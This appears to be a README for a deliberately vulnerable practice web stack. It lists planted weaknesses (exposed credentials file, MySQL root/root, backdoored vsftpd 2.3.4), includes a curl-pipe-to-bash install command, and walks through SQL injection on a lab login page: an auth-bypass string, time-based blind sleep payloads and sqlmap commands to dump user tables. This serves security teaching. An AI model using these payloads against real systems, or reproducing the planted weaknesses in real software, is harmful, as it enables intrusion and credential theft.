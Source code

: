 # Insecure Web Server Deployment

This repo contains a script to deploy an insecure webserver stack:
- nginx (credentials.txt indexed)
- mysql (Root user is open + default root/root)
- FTP (vsftp) (https://nvd.nist.gov/vuln/detail/CVE-2011-2523)
    - POC -> (https://gopikrish1792.medium.com/installing-exploiting-vulnerable-ftp-service-on-ubuntu-17ac76c9561a)
    - Source -> (https://github.com/nikdubois/vsftpd-2.3.4-infected)

# Run the Script

```bash
cd /home/root
apt install -y curl
curl -s https://raw.githubusercontent.com/TheMatrix97/Insecure-WebStack/refs/tags/1.0.0/script.sh | bash
```

# Part 2

Let's try some injections:

```text
User: admin
Password: '

Throws error 500
```

## Basic SQLI

First, let's try to bypass de login for user admin:

```text
User: admin
Password: ' OR '1'='1
```

How could I get the password? Probably with a blind time-based attack?

**Time-Based**
```text
User: ' OR (select sleep(15));#
Password: asd
```


## SQLMap


Exploit the time-based blind sqli found in login.php to get the dbs

```bash
sqlmap -u "http://10.0.2.10/login.php" --data="username=1&password=2" --dbs
```

Then, dump the users table to get the username / passwords

```bash
sqlmap -u "http://10.0.2.10/login.php" --data="username=1&password=2" -D login_app -T users --dump --time-sec 1
```

Basic sqli check: `and (select sleep(10) from users where SUBSTR(table_name,1,1) = 'A')#`